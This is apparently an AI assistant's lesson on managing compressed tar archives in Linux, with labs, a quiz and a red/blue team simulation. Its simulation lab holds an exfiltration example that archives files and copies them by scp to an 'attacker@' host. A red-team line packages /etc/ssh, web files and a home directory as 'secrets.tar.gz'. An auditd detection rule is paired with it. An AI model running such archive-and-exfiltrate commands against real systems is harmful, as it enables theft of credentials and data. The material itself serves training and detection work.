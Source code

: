 Perfect, Shahid.

We are now documenting:

# 🗂️ **Module 13 – Archive and Transfer Files**

## 📦 Lesson 1: Manage Compressed `tar` Archives

## *Format: Cybersecurity Documentation Protocol Ultra v5.0 — Master Grade Edition*

## 🔰 Introduction

The `tar` utility (`tape archive`) is a critical tool in Linux environments for **archiving multiple files** into a single archive file, often combined with compression tools like `gzip`, `bzip2`, or `xz`.
This lesson focuses on managing **compressed `tar` archives**, covering creation, extraction, inspection, and real-world backup/transfer use cases.

> 🧭 *Use Case*: Archiving logs, backing up web server files, or securely transferring forensic evidence.

---

## 🧠 Core Concepts (Feynman Style + Diagram)

### 🤔 What is `tar`?

> "`tar` is like putting many files into a suitcase so you can carry them together."

But…

* The suitcase can be zipped to save space (`gzip`, `bzip2`, etc.).
* You can also **peek inside**, **unpack**, or **repack** at will.

### 🧱 Compression Layers:

```plaintext
[file1.txt, file2.log, dirA/] → tar → archive.tar → gzip → archive.tar.gz
```

### 📦 Common Compression Types:

| Format     | Extension         | Compression Tool |
| ---------- | ----------------- | ---------------- |
| `.tar`     | Archive only      | `tar`            |
| `.tar.gz`  | gzip compression  | `gzip`           |
| `.tar.bz2` | bzip2 compression | `bzip2`          |
| `.tar.xz`  | xz compression    | `xz`             |

---

## 💻 Commands & Configs (RHEL 9 Real Output)

### 🔧 Create a compressed archive:

```bash
tar -czvf logs_backup.tar.gz /var/log
```

* `c`: Create
* `z`: Compress using gzip
* `v`: Verbose
* `f`: Filename to write to

### 🔍 List contents without extracting:

```bash
tar -tzvf logs_backup.tar.gz
```

### 📂 Extract a `.tar.gz` file:

```bash
tar -xzvf logs_backup.tar.gz -C /tmp/recovery/
```

### 🔁 Create using bzip2 or xz:

```bash
tar -cjvf logs_backup.tar.bz2 /var/log
tar -cJvf logs_backup.tar.xz /var/log
```

---

## 🧪 Labs

### 🟢 Beginner Lab: Create & Extract `tar.gz`

1. Create a test folder:

   ```bash
   mkdir -p ~/test_archive/{a,b}; touch ~/test_archive/a/file1.txt ~/test_archive/b/file2.txt
   ```
2. Archive it:

   ```bash
   tar -czvf test.tar.gz ~/test_archive
   ```
3. Extract:

   ```bash
   tar -xzvf test.tar.gz -C ~/extracted_test
   ```

---

### ⚙️ Tactical Lab: Scheduled Log Backup Script

```bash
#!/bin/bash
DATE=$(date +%F)
tar -czf /backup/logs-$DATE.tar.gz /var/log
```

* Schedule using `crontab`:

  ```bash
  0 1 * * * /root/scripts/backup_logs.sh
  ```

---

### 🎯 Simulation Lab: Evidence Packaging (Red Team Recovery)

**Scenario**: A red teamer archives `/home/redteam/tools/` and exfiltrates it via SCP.

```bash
tar -czf tools_evidence.tar.gz /home/redteam/tools/
scp tools_evidence.tar.gz attacker@192.168.10.55:/tmp/
```

---

## 🛡 Red/Blue Simulation

### 🔴 Red Team (Tactic: Exfiltration, Technique: T1560.001)

**MITRE ATT\&CK**: [T1560.001 - Archive via Utility](https://attack.mitre.org/techniques/T1560/001/)

```bash
tar -czf secrets.tar.gz /etc/ssh /var/www/html/ /home/dev/
```

### 🔵 Blue Team: Detection & Log Review

* **Auditd Rule**:

```bash
-w /bin/tar -p x -k detect-tar-use
```

* **Syslog Snippet**:

```plaintext
type=EXECVE msg=audit(...): argc=5 a0="tar" a1="-czf" a2="secrets.tar.gz" ...
```

---

## 🧠 Deep Quiz (Master Grade)

1. What does the `-f` option do in `tar`?
2. How would you list the contents of a `.tar.bz2` without extracting?
3. What's the difference between `-z`, `-j`, and `-J`?
4. Which MITRE technique covers data archival before exfiltration?
5. What command archives `/var/www/` with xz compression?

---

## 🗂 Summary Table + Checklist

| Task                  | Command                       | ✅ |
| --------------------- | ----------------------------- | - |
| Create gzip archive   | `tar -czvf file.tar.gz dir/`  | ✅ |
| Extract gzip archive  | `tar -xzvf file.tar.gz`       | ✅ |
| List archive contents | `tar -tzvf file.tar.gz`       | ✅ |
| Use bzip2 compression | `tar -cjvf file.tar.bz2 dir/` | ✅ |
| Use xz compression    | `tar -cJvf file.tar.xz dir/`  | ✅ |

---

## 📓 Journaling + Confidence Tracker

* 📅 **Date Practiced**: `____`
* 🔁 **Did you build the labs yourself?** Yes / No
* 💡 **Insights**: `___________________________________`
* 🔐 **Security Use Cases Observed**: `_________________________`
* ✅ **Confidence (1–5)**: `__`

---

## 🧭 Job & Cert Mapping

| Role        | Task                                                | Cert Domain     |
| ----------- | --------------------------------------------------- | --------------- |
| SOC Analyst | Review suspicious `.tar.gz` creation                | CEH, CompTIA+   |
| Sysadmin    | Automate log backups using `tar` and cron           | RHCSA, LPIC-1   |
| Pentester   | Package tools or loot before exfiltration           | OSCP, CEH       |
| IR Analyst  | Detect archive usage via Auditd or Sysmon (Windows) | Blue Team, GCFA |

---

## 🧠 Spaced Repetition Plan

* **Day 1**: Run all three compression types: gzip, bzip2, xz
* **Day 3**: Build a script to archive `/etc/` and restore it
* **Day 7**: Simulate attacker behavior (Red Team) + detect via Auditd
* **Day 30**: Teach this to a peer and document a real backup policy

---

Let me know the **next lesson** from Module 13, and I’ll continue with the same structure.

Would you like this in a downloadable `.md` file too?
